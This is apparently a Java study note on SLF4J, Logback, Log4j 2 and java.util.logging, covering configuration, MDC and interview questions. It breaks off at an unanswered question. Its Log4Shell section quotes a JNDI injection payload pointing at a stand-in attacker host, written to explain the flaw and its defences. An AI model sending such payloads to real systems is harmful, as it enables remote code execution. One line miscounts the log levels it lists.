



# SLF4J and Logging Frameworks

## Overview

Logging is the cheapest observability tool you have. Every Java application logs: to a console in development, to a file in production, to a centralised log aggregation system at scale. The Java ecosystem has a complicated history with logging, dominated by three generations of frameworks (java.util.logging, Log4j 1, Logback, Log4j 2) and a unifying facade (SLF4J) that lets application code be written against a stable API while the underlying implementation can be swapped at deployment time. Understanding the facade pattern, the binding mechanism, the bridge mechanism (for libraries that still use the old APIs), and the performance implications of each framework choice is essential for any production Java developer.

This note covers SLF4J in depth: its `Logger` and `LoggerFactory` API, the parameterised message pattern, the `MDC` (Mapped Diagnostic Context), the `Marker` API, and the binding mechanism that selects a backend. We then compare the three major backends (Logback, Log4j 2, and java.util.logging) across performance, configurability, ecosystem, and operational maturity. We look at the bridging APIs that intercept logs from third-party libraries using JCL, Log4j 1, or java.util.logging and route them through SLF4J. We then cover Logback configuration via `logback.xml`, Log4j 2 configuration via `log4j2.xml`, and the Spring Boot default logging story. We finish with a deep dive on the Log4Shell vulnerability (CVE-2021-44228), why it was so damaging, and how to ensure your stack is safe.

## Background Knowledge

Recall the following from earlier notes:

- **Class loading** (Phase 9.4): SLF4J discovers its binding via the service loader mechanism (`META-INF/services/org.slf4j.spi.SLF4JServiceProvider`).
- **Static factory pattern** (Phase 2): `LoggerFactory.getLogger(...)` is a static factory.
- **Try with resources** (Phase 5): log files and rolling policies clean up via `AutoCloseable`.
- **Lambda expressions** (Phase 6): SLF4J 2.0.x supports lambda-based lazy evaluation via `atInfo().log(() -> "msg " + x)`.
- **Modules** (Phase 3.7): Log4j 2 is fully modularised; SLF4J is partially.

## The Logging Problem Space



The facade decouples the application from the implementation. The binding is the runtime adapter between the facade and the implementation. The implementation does the actual work: filtering, formatting, and dispatching to appenders. Each layer can be swapped independently.

## A Brief History

| Year | Project | Significance |
|---|---|---|
| 1996 | Log4j 1 | First popular Java logging framework (Ceki Gulcu) |
| 2002 | java.util.logging (JUL) | Added to the JDK in 1.4 (JSR 47) |
| 2002 | Jakarta Commons Logging (JCL) | First facade, runtime discovery (problematic) |
| 2004 | SLF4J | Better facade, compile-time binding (Ceki Gulcu) |
| 2009 | Logback | Successor to Log4j 1, native SLF4J binding (Ceki Gulcu) |
| 2014 | Log4j 2 | Rewrite of Log4j 1, async loggers based on LMAX Disruptor |
| 2017 | SLF4J 1.8 | Service-provider binding instead of static binder |
| 2021 | SLF4J 2.0 | Fluent API, lambda support |
| 2021 | Log4Shell | CVE-2021-44228, the JNDI lookup vulnerability |
| 2022 | Logback 1.4, Log4j 2.18 | Java 8 minimum, refreshed APIs |
| 2024 | SLF4J 2.0.x, Logback 1.5.x | Current state at the time of writing |

## The SLF4J Facade

### The Logger Interface

```java
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

public class OrderService {

    private static final Logger LOG = LoggerFactory.getLogger(OrderService.class);

    public void placeOrder(Order order) {
        LOG.info("Placing order for user {} sku {} quantity {}",
                 order.userId(), order.sku(), order.quantity());
    }
}
```

The `Logger` interface has the standard six log levels: `TRACE`, `DEBUG`, `INFO`, `WARN`, `ERROR`. Each level has four method variants:

1. `info(String message)`: a static message, no parameters.
2. `info(String format, Object arg)`: one parameter, substituted into the `{}` placeholder.
3. `info(String format, Object arg1, Object arg2)`: two parameters.
4. `info(String format, Object... args)`: variable arguments.

The `{}` placeholder is the cornerstone of SLF4J. It enables the implementation to defer the string concatenation until (and unless) the message is actually emitted, which is the dominant cost of logging. Without it, you would have to wrap every log statement in `if (log.isDebugEnabled())`, which is verbose and easy to forget.

### The Fluent API (SLF4J 2.0+)

SLF4J 2.0 introduced a fluent API that takes lambdas for lazy message construction and supports per-call markers and key-value pairs:

```java
LOG.atInfo()
   .setMessage("Placing order")
   .addKeyValue("userId", order.userId())
   .addKeyValue("sku", order.sku())
   .addKeyValue("quantity", order.quantity())
   .log();
```

The fluent API is the recommended form for new code because it composes naturally with structured logging (covered in the next note). The traditional `info(String, Object...)` API is still supported and is the right choice for simple one-line logs.

### Lazy Evaluation with Lambdas

Even with `{}` placeholders, the arguments themselves are evaluated eagerly. If an argument is an expensive method call, you want to defer it until you know the log statement will actually emit. The fluent API takes a `Supplier` for the message:

```java
LOG.atDebug().log(() -> "Computed checksum: " + expensiveChecksum(bytes));
```

The supplier is only invoked if the logger is at DEBUG level. For arguments, use the `addArgument(Supplier)` form:

```java
LOG.atInfo()
   .addArgument(() -> expensiveUserIdLookup())
   .log("User {} placed an order");
```

## LoggerFactory

```java
Logger LOG = LoggerFactory.getLogger(OrderService.class);
Logger LOG2 = LoggerFactory.getLogger("com.example.orders");
```

The logger name is conventionally the fully-qualified name of the class. Loggers form a hierarchy (like packages): the logger `com.example.orders` is a child of `com.example`, which is a child of the root logger. Configuration inherited from parent loggers propagates to children, which lets you set the level for an entire package or the whole application in one line.



If you set `com.example` to DEBUG, every logger under that package inherits DEBUG unless it overrides locally.

## The Binding Mechanism

SLF4J 1.7.x used a static binder class (`Log4jLoggerFactory` or `LogbackLoggerFactory`) that the application loaded at startup. SLF4J 2.0.x switched to the Java Service Provider Interface: each binding JAR ships a `META-INF/services/org.slf4j.spi.SLF4JServiceProvider` file pointing to its provider class. The provider returns a `ILoggerFactory` that produces concrete loggers.

| Binding JAR | Backend |
|---|---|
| `logback-classic` | Logback (native) |
| `slf4j-log4j12` | Log4j 1 (legacy, deprecated) |
| `log4j-slf4j-impl` | Log4j 2 (note: NOT `log4j-slf4j2-impl` which is for SLF4J 2.0) |
| `slf4j-jdk14` | java.util.logging |
| `slf4j-simple` | A trivial in-memory implementation for tests |
| `slf4j-nop` | Discards all logs (for benchmarks) |

If exactly one binding is on the classpath, SLF4J uses it. If zero, SLF4J logs a single warning and discards all messages via the `NOPLogger`. If more than one, SLF4J logs a warning and picks one in unspecified order, which is almost always a build error.

## Bridging Legacy APIs

Many third-party libraries still use the older logging APIs: Spring uses JCL (Jakarta Commons Logging), Hibernate uses JBoss Logging, old libraries use Log4j 1 directly, the JDK itself uses java.util.logging. The bridge JARs intercept these calls and route them through SLF4J so that all your logs go to one place.

| Bridge JAR | Intercepts |
|---|---|
| `jcl-over-slf4j` | Jakarta Commons Logging |
| `log4j-over-slf4j` | Log4j 1 |
| `jul-to-slf4j` | java.util.logging (requires a `SLF4JBridgeHandler.install()` call) |

The bridge replaces the original API jar. For example, if you depend on `commons-logging`, exclude it and add `jcl-over-slf4j` so that Spring and other libraries that import `org.apache.commons.logging.LogFactory` get a bridge object instead.

```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-core</artifactId>
    <version>6.1.5</version>
    <exclusions>
        <exclusion>
            <groupId>commons-logging</groupId>
            <artifactId>commons-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>jcl-over-slf4j</artifactId>
    <version>2.0.13</version>
</dependency>
```

### The jul-to-slf4j Trap

`jul-to-slf4j` does not automatically intercept JUL calls; you must install the bridge handler:

```java
import org.slf4j.bridge.SLF4JBridgeHandler;

SLF4JBridgeHandler.removeHandlersForRootLogger();
SLF4JBridgeHandler.install();
```

Call this once during application startup, before any JUL-logging library is used. The trap is that this bridge has a measurable performance overhead because every JUL log call goes through `Logger.log`, then through the bridge, then through SLF4J, then through the binding. For high-volume JUL logging (for example, from JDK HTTP server internals), set `java.util.logging.config.file` to a properties file that raises the JUL level to `WARNING` so that most messages are filtered before the bridge runs.

## MDC (Mapped Diagnostic Context)

The MDC is a per-thread map of contextual key-value pairs that the logging framework can include in every log line. It is the foundation of structured logging in single-process applications.

```java
import org.slf4j.MDC;

public class RequestFilter implements jakarta.servlet.Filter {
    @Override
    public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain)
            throws IOException, ServletException {
        var httpRequest = (HttpServletRequest) req;
        var requestId = httpRequest.getHeader("X-Request-Id");
        if (requestId == null) requestId = java.util.UUID.randomUUID().toString();
        try (var ignored = MDC.putCloseable("requestId", requestId)) {
            chain.doFilter(req, res);
        }
    }
}
```

The Logback pattern `%X{requestId}` includes the value in every log line:

```
2024-05-20 14:32:11.456 INFO  [http-nio-8080-exec-1] c.e.OrderService  - Placing order  requestId=a1b2c3
```

With virtual threads (Java 21), MDC works correctly because it is backed by `ThreadLocal`, and every virtual thread has its own thread locals. The one caveat is that structured task scopes do not automatically inherit the parent's MDC; you must copy it explicitly:

```java
try (var scope = new StructuredTaskScope.ShutdownOnFailure("order-processing", Thread.ofVirtual().factory())) {
    var parentMdc = MDC.getCopyOfContextMap();
    scope.fork(() -> {
        if (parentMdc != null) MDC.setContextMap(parentMdc);
        try {
            return processOrder(order);
        } finally {
            MDC.clear();
        }
    });
    scope.join();
}
```

## Markers

Markers tag log events for filtering or routing. A marker is a named object that can have child markers, forming a tree. Appenders can be configured to accept only events with a specific marker.

```java
import org.slf4j.Marker;
import org.slf4j.MarkerFactory;

Marker SECURITY = MarkerFactory.getMarker("SECURITY");
Marker AUDIT    = MarkerFactory.getMarker("AUDIT");
SECURITY.add(AUDIT);

LOG.info(SECURITY, "User {} logged in from IP {}", username, ip);
```

Markers are rarely used in practice because the MDC is more flexible. They are useful when you need a binary on/off flag that is not context data: "this is a security event, route it to the security log file."

## The Backend Implementations

### Logback

Logback is the default backend for Spring Boot and the most popular SLF4J binding. It was designed as the successor to Log4j 1 by the same author (Ceki Gulcu) and ships native SLF4J support (no separate binding JAR needed; `logback-classic` is both the implementation and the binding).

#### Logback Configuration

```xml
<configuration>
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
        <encoder>
            <pattern>%d{yyyy-MM-dd HH:mm:ss.SSS} [%thread] %-5level %logger{36} - %msg%n</pattern>
        </encoder>
    </appender>

    <appender name="FILE" class="ch.qos.logback.core.rolling.RollingFileAppender">
        <file>logs/app.log</file>
        <rollingPolicy class="ch.qos.logback.core.rolling.SizeAndTimeBasedRollingPolicy">
            <fileNamePattern>logs/app.%d{yyyy-MM-dd}.%i.log.gz</fileNamePattern>
            <maxFileSize>50MB</maxFileSize>
            <maxHistory>30</maxHistory>
            <totalSizeCap>5GB</totalSizeCap>
        </rollingPolicy>
        <encoder>
            <pattern>%d{yyyy-MM-dd HH:mm:ss.SSS} [%thread] %-5level %logger{36} - %msg%n</pattern>
        </encoder>
    </appender>

    <logger name="com.example" level="DEBUG"/>
    <logger name="org.springframework" level="WARN"/>
    <root level="INFO">
        <appender-ref ref="STDOUT"/>
        <appender-ref ref="FILE"/>
    </root>
</configuration>
```

The file lives at `src/main/resources/logback.xml` (or `logback-spring.xml` for Spring Boot, which adds profile-aware configuration). The `RollingFileAppender` rolls over by size and time, keeping 30 days of history and capping total disk usage at 5 GB.

#### Async Appender

Logback's `AsyncAppender` queues log events on a `BlockingQueue` and writes them from a single background thread. This decouples the application from disk I/O latency but adds a small risk: if the queue fills up, the default policy is to drop events.

```xml
<appender name="ASYNC" class="ch.qos.logback.classic.AsyncAppender">
    <queueSize>4096</queueSize>
    <discardingThreshold>0</discardingThreshold>
    <neverBlock>true</neverBlock>
    <appender-ref ref="FILE"/>
</appender>
```

`discardingThreshold` set to 0 means no events are dropped (the default is to drop DEBUG and TRACE when the queue is 80 percent full). `neverBlock` set to true means the producer never blocks; if the queue is full, the event is dropped. Choose deliberately based on whether you prioritise throughput or completeness.

### Log4j 2

Log4j 2 is the most performant Java logging framework. Its async loggers use the LMAX Disruptor, a lock-free inter-thread messaging library that achieves tens of millions of messages per second on commodity hardware. The tradeoff is more configuration complexity and a heavier dependency footprint.

#### Log4j 2 Configuration

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
        <RollingFile name="File" fileName="logs/app.log"
                     filePattern="logs/app-%d{yyyy-MM-dd}-%i.log.gz">
            <PatternLayout pattern="%d{ISO8601} [%t] %-5level %logger{36} - %msg%n"/>
            <Policies>
                <TimeBasedTriggeringPolicy/>
                <SizeBasedTriggeringPolicy size="50 MB"/>
            </Policies>
            <DefaultRolloverStrategy max="30"/>
        </RollingFile>
    </Appenders>
    <Loggers>
        <Logger name="com.example" level="DEBUG"/>
        <AsyncRoot level="INFO" includeLocation="true">
            <AppenderRef ref="Console"/>
            <AppenderRef ref="File"/>
        </AsyncRoot>
    </Loggers>
</Configuration>
```

The `AsyncRoot` element enables async loggers. `includeLocation` controls whether the logger captures the caller's source file and line number, which is expensive; set it to `false` unless you genuinely need it.

#### Log4j 2 Dependency

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j2-impl</artifactId>
    <version>2.23.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.23.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.23.1</version>
</dependency>
<dependency>
    <groupId>com.lmax</groupId>
    <artifactId>disruptor</artifactId>
    <version>3.4.4</version>
</dependency>
```

The `disruptor` dependency is required for true async loggers. Without it, Log4j 2 falls back to `AsyncAppender` semantics similar to Logback's.

### java.util.logging (JUL)

JUL is the JDK's built-in logging framework. It is fine for small applications and for libraries that want zero external dependencies. It is rarely the right choice for production server-side Java because its performance lags Logback and Log4j 2 significantly, its configuration is via a properties file rather than XML, and its formatter is less flexible.

```properties
handlers=java.util.logging.ConsoleHandler
.level=INFO
com.example.level=FINE
java.util.logging.ConsoleHandler.level=INFO
java.util.logging.ConsoleHandler.formatter=java.util.logging.SimpleFormatter
java.util.logging.SimpleFormatter.format=%1$tY-%1$tm-%1$td %1$tH:%1$tM:%1$tS.%1$tL %4$-7s [%3$s] %5$s%6$s%n
```

## Spring Boot Default Logging

Spring Boot ships Logback as the default backend with sensible defaults: INFO level, console output, a pattern that includes timestamp, thread, level, logger, and message. The defaults can be overridden by adding `logback-spring.xml` to `src/main/resources`. The `-spring` suffix triggers Spring Boot's extended Logback support, which lets you use Spring profile placeholders in the configuration:

```xml
<configuration>
    <springProfile name="prod">
        <root level="INFO">
            <appender-ref ref="FILE"/>
        </root>
    </springProfile>
    <springProfile name="dev">
        <root level="DEBUG">
            <appender-ref ref="STDOUT"/>
        </root>
    </springProfile>
</configuration>
```

You can also override individual levels in `application.properties`:

```properties
logging.level.com.example=DEBUG
logging.level.org.springframework=WARN
logging.file.name=logs/app.log
logging.pattern.console=%d{yyyy-MM-dd HH:mm:ss.SSS} %-5level [%thread] %logger{36} - %msg%n
```

## Logback versus Log4j 2: A Decision Guide



For most projects, Logback is the right default. Reach for Log4j 2 only when you need its superior throughput (typically in high-throughput event-processing systems), its more flexible routing appenders, or its JSON-template layout (covered in the next note).

## The Log4Shell Vulnerability

On 9 December 2021, CVE-2021-44228 was disclosed: a JNDI lookup feature in Log4j 2 allowed an attacker to execute arbitrary code by sending a crafted string that Log4j would interpolate. A malicious string like `${jndi:ldap://attacker.com/Exploit}` in any logged value (including HTTP headers, user agents, form fields) would trigger Log4j to make an outbound LDAP request to an attacker-controlled server, download a Java class, and execute it. The vulnerability was a 10.0 CVSS score (the maximum) and affected everything from Minecraft servers to enterprise software.

### Why It Was So Damaging

Three reasons:

1. **Ubiquity**: Log4j 2 was used everywhere, often transitively via other libraries.
2. **Trivial exploitability**: an attacker needed only to get a string into a log line. HTTP headers, form fields, chat messages, even DNS query names were attack vectors.
3. **High impact**: remote code execution with the privileges of the JVM.

### What It Taught Us

- **Avoid string interpolation of untrusted data**. The vulnerable feature was a "lookup" that interpolated `${...}` placeholders in log messages. Any feature that interpolates untrusted input is a code execution risk if the interpolation language is Turing-complete or can make network calls.
- **Pin to specific versions and update rapidly**. The patch was 2.15.0, then 2.16.0 (because 2.15.0 still had a related DoS), then 2.17.0 (because 2.16.0 still had a related RCE in non-default configurations). Three patches in a week. Teams that could not update rapidly were exposed for the entire window.
- **Scan for vulnerable transitive dependencies**. The OWASP Dependency-Check plugin and Snyk can detect vulnerable Log4j versions in transitive dependencies. Add them to your build pipeline.
- **Defense in depth**. Network egress filtering (the JVM should not be able to make outbound LDAP or RMI calls to arbitrary hosts) would have prevented exploitation even with the vulnerable code present.

## Common Pitfalls

1. **Multiple SLF4J bindings on the classpath**. SLF4J prints a warning and picks one in unspecified order. Always exclude one. The Maven `dependency:tree` command and Gradle's `dependencyInsight` task help find duplicates.
2. **Using `jcl-over-slf4j` AND `spring-jcl` together**. Spring 5+ ships its own bridge (`spring-jcl`) that routes JCL calls to SLF4J. If you add `jcl-over-slf4j` as well, you have two bridges fighting for the same JCL API. Use `spring-jcl` (which Spring Boot includes by default) and do not add `jcl-over-slf4j`.
3. **Forgetting `log4j-slf4j2-impl` versus `log4j-slf4j-impl`**. The `2-impl` suffix is for SLF4J 2.0.x (Java 9+ service loader). The non-suffixed `log4j-slf4j-impl` is for SLF4J 1.7.x (static binder). Mixing them produces a `NoSuchMethodError` at startup.
4. **Logging secrets**. `LOG.info("User logged in with password {}", password)` writes the password to disk. Audit every log statement that includes user input or credentials.
5. **Logging large objects**. `LOG.debug("Order: {}", order)` calls `order.toString()`, which may produce a 10 KB string. Use a custom `toString` or log only the relevant fields.
6. **Synchronous file appender in a hot path**. Synchronous file I/O blocks the application thread. Always wrap a `FileAppender` in an `AsyncAppender` (Logback) or use `AsyncRoot` (Log4j 2) for any non-trivial volume.
7. **Not setting `totalSizeCap`**. Without it, log files grow unbounded and fill the disk. Set a cap that is realistic for your retention needs and your disk size.
8. **Using `e.printStackTrace()`**. It writes to `System.err`, bypassing the logging framework entirely. Use `LOG.error("Failed to process", e)` instead.
9. **Catching and logging `Exception`** without context. `LOG.error("Error", e)` is useless without saying what operation failed. Include enough context to reproduce: the input that caused the failure, the operation that was attempted, and the relevant identifiers.
10. **Forgetting to call `MDC.clear()`**. The MDC is per-thread. If your application uses a thread pool (which it almost certainly does), thread reuse carries over the MDC from the previous task. Always clear the MDC in a `finally` block or use the `try (var ignored = MDC.putCloseable(...))` form.

## Tips and Tricks

- Use `LoggerFactory.getLogger(MethodHandles.lookup().lookupClass())` in static utility classes where the enclosing class is not easily available.
- Use SLF4J 2.0's fluent API for any log statement that includes key-value pairs. The downstream JSON encoder (covered in the next note) will treat them as structured fields.
- Set the root logger to INFO and individual package loggers to DEBUG. Setting the root to DEBUG produces far too much output from third-party libraries.
- Use a `SizeAndTimeBasedRollingPolicy` rather than `TimeBasedRollingPolicy` alone. The former caps individual file size as well as the daily file, preventing a single busy day from producing a multi-gigabyte file.
- Compress old log files with `.gz` in the `fileNamePattern`. The compression is done in the rolling thread, not the application thread.
- Log the entire exception stack trace at WARN or ERROR; log a one-line summary at INFO. Avoid duplicating the stack trace at multiple levels.
- Use `MDC.putCloseable` (Logback) or the equivalent try-with-resources pattern to ensure the MDC is cleared even when the wrapped code throws.
- For high-throughput code paths, use parameterised messages even at INFO level. The cost of building the argument array is much less than the cost of string concatenation, and the framework may still filter the message based on level.
- Use the `org.slf4j.simpleLogger.defaultLogLevel` system property to set the level when running with `slf4j-simple` (in tests).
- For library authors, log at DEBUG or TRACE for diagnostics. INFO is for application-level events that an operator should see; WARN is for situations the operator should investigate; ERROR is for failures the operator must address.

## Interview Questions

**Q1: What is SLF4J and why is it a facade?**

A: SLF4J (Simple Logging Facade for Java) is an API that applications code against, leaving the actual logging implementation to be chosen at deployment time. The facade pattern decouples the application from the backend: you can write code against SLF4J today and switch from Logback to Log4j 2 tomorrow by changing one dependency, without touching application code. The facade also normalises the API across the many historical Java logging frameworks, providing a stable interface (Logger, LoggerFactory, MDC, Marker) that all backends can plug into.

**Q2: How does SLF4J discover its binding?**

A: In SLF4J 2.0+, via the Java Service Provider Interface. Each binding JAR ships a `META-INF/services/org.slf4j.spi.SLF4JServiceProvider` file pointing to its provider class. SLF4J's `LoggerFactory` loads all providers via `ServiceLoader.load(SLF4JServiceProvider.class)` and picks one (typically the first). In SLF4J 1.7.x, the binding was via a static `StaticLoggerBinder` class on the classpath; the move to the SPI in 1.8 and 2.0 allowed Java modules to work correctly and avoided the well-known `Multiple SLF4J bindings` warning when multiple bindings were shaded into a fat JAR.

**Q3: What is the difference between a binding and a bridge in SLF4J?**

A: A binding is the runtime adapter that lets SLF4J delegate to a specific backend (Logback, Log4j 2, JUL). The binding JAR is the one you add to your project to choose the backend. A bridge intercepts log calls made through a different API (JCL, Log4j 1, JUL) and routes them through SLF4J. The bridge JAR replaces the original API JAR on the classpath; for example, `jcl-over-slf4j` provides the same classes as `commons-logging` but every call to a JCL logger is forwarded to SLF4J.

**Q4: Why does SLF4J use `{}` placeholders?**

A: To defer string concatenation until the message is actually emitted. Building a log message by concatenation (`"User " + userId + " placed order " + orderId`) eagerly constructs the string even when the log level filters out the message. With placeholders, the framework substitutes the arguments only after deciding that the message will be emitted, which avoids the dominant cost of logging. For DEBUG and TRACE messages that are typically filtered out in production, this is a significant throughput improvement.

**Q5: What is the MDC and how does it work?**

A: The MDC (Mapped Diagnostic Context) is a per-thread map of key-value pairs that the logging framework includes in every log line. It is backed by `ThreadLocal`, so each thread has its own copy. The application sets MDC values at the start of a request (for example, the request ID, the user ID, the trace ID) and clears them at the end. The logging pattern includes the values via `%X{key}` (Logback) or `%X{key}` (Log4j 2). The MDC is the foundation of structured logging in single-process applications and integrates naturally with distributed tracing (covered in the next note).

**Q6: How does the MDC interact with virtual threads?**

A: Virtual threads have their own thread locals, so the MDC works correctly per virtual thread. The catch is that structured task scopes do not automatically inherit the parent's MDC. If you fork a child task in a structured scope, the child starts with an empty MDC; you must explicitly copy the parent's MDC (`MDC.getCopyOfContextMap()`) and set it on the child (`MDC.setContextMap(parentMap)`). With unbounded virtual thread creation, also be mindful that MDC values are not garbage collected until the thread terminates; clear them in a `finally` block.

**Q7: What is the difference between Logback's `AsyncAppender` and Log4j 2's `AsyncRoot`?**

A: Logback's `AsyncAppender` wraps another appender and queues events on a `BlockingQueue`. A single background thread drains the queue and writes to the wrapped appender. It is simple and effective but the queue handoff involves lock contention under high concurrency. Log4j 2's `AsyncRoot` uses the LMAX Disruptor, a lock-free ring buffer that supports multiple producer threads and a single consumer thread without contention. The Disruptor achieves tens of millions of messages per second on commodity hardware, an order of magnitude faster than `AsyncAppender`. The tradeoff is a heavier dependency (the Disruptor JAR) and more configuration complexity.

**Q8: What is `jcl-over-slf4j` and when would you use it?**

A: It is a bridge that intercepts calls to the Jakarta Commons Logging API and routes them through SLF4J. You use it when your application (or one of its transitive dependencies) uses JCL but you want all logs to go through your chosen SLF4J backend. You exclude the `commons-logging` JAR and add `jcl-over-slf4j` in its place; the bridge provides the same API surface but every `Log` instance is a thin wrapper around an SLF4J `Logger`. For Spring 5+ applications, use Spring's built-in `spring-jcl` instead, which serves the same purpose without an extra JAR.

**Q9: What is the Log4Shell vulnerability and how was it exploited?**

A: Log4Shell (CVE-2021-44228) was a critical vulnerability in Log4j 2 versions prior to 2.15.0. Log4j 2 supported JNDI lookups via the `${jndi:...}` interpolation syntax in log messages. An attacker could send a crafted string (in an HTTP header, a chat message, a form field) that, when logged by a vulnerable Log4j 2 instance, caused the JVM to make an outbound LDAP or RMI request to an attacker-controlled server, download a Java class, and execute it. The exploit required only that the attacker get the string into a log line. The fix was to disable JNDI lookups by default (in 2.15.0), then remove the lookup feature entirely in subsequent versions.

**Q10: How do you choose between Logback and Log4j 2?**

A: Use Logback when you want the default Spring Boot experience, simple XML configuration, and good-enough performance for typical web applications. Use Log4j 2 when you need maximum throughput (typically hundreds of thousands or millions of log messages per second), when you need advanced routing appenders (route logs to different files based on MDC values), or when you want the JSON template layout that Log4j 2 ships natively. For most projects, Logback is the right default and switching to Log4j 2 later is a single dependency change thanks to the SLF4J facade.

**Q11: What is the role of `discardingThreshold` in Logback's `AsyncAppender`?**

A: It controls when the appender starts dropping DEBUG and TRACE events to make room for higher-priority events. The default value is 80 percent of `queueSize`: when the queue is 80 percent full, DEBUG and TRACE events are dropped to ensure INFO, WARN, and ERROR events are not blocked. Setting it to 0 disables this behaviour (no events are dropped based on level). Setting it equal to `queueSize` drops DEBUG and TRACE always. Choose based on whether you prioritise completeness (set to 0) or throughput of high-priority events (leave default).

**Q12: Why does `e.printStackTrace()` cause problems in production?**

A: Three reasons. (1) It writes to `System.err`, bypassing the logging framework. The output does not go to your log files, has no timestamp or MDC, and is not subject to your log level configuration. (2) It writes synchronously to standard error, which can block the application thread. (3) It produces unstructured output that log aggregation systems like ELK or Loki cannot parse. Always use `LOG.error("context", e)` instead, which routes the exception through your logging framework.

**Q13: How do you ensure thread-local MDC state is cleaned up?**

A: Use `MDC.putCloseable(key, value)` (Logback) which returns an `AutoCloseable` that removes the key when closed in a try-with-resources block. For multiple keys, set them all, run the wrapped code, and call `MDC.clear()` in a `finally` block. The `clear` call removes every key the thread has set; it is important when the thread is reused (thread pool, virtual thread pool) because otherwise the next task inherits the previous task's MDC. For request handlers, a Servlet `Filter` or Spring `HandlerInterceptor` is the right place to do this.

**Q14: What is the performance cost of logging at DEBUG level when DEBUG is disabled?**

A: The cost is the cost of the method call, the level check (a comparison against the logger's effective level), and the cost of evaluating the arguments. With parameterised messages (`LOG.debug("User {} did {}", userId, action)`), the arguments are evaluated eagerly but the string concatenation is deferred and skipped if DEBUG is disabled. The method call and level check together are a few nanoseconds. For high-throughput code, the argument evaluation can be the dominant cost; use `LOG.atDebug().addArgument(() -> expensiveLookup()).log()` to defer it. The classic `if (LOG.isDebugEnabled())` guard is now considered an anti-pattern except for the most extreme cases.

**Q15: How does Spring Boot's logging default work?**

